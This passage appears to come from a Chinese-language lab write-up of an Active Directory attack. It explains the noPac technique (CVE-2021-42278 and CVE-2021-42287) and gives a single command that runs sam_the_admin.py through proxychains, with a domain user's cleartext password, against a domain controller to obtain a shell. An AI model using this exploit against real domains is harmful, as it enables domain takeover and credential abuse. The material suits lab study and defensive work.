 [![](assets/1711556160-4b811b986a543edefb84ced56016c90e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205020-cd0723a0-3457-1.png)

现在我们控制了域内的主机，有一个域用户了，还有明文密码，满足了很多域漏洞的利用条件，我就不按照官方的操作了，居然要重启主机，它的中继攻击利用条件太苛刻了，实战很难碰上：

### noPac

这个其实是两个漏洞的组合利用，流行是说法是 NoPAC，另一种是 sam-the-admin，是 CVE-2021-42278 和 CVE-2021-42287 的组合拳，利用也很简单，跑一下脚本就打下域控了，利用条件就是要拿到一个用户的账号密码，

```plain
proxychains python3 sam_the_admin.py holo.live/watamet:Nothingtoworry! -dc-ip 10.200.107.30  -shell
```
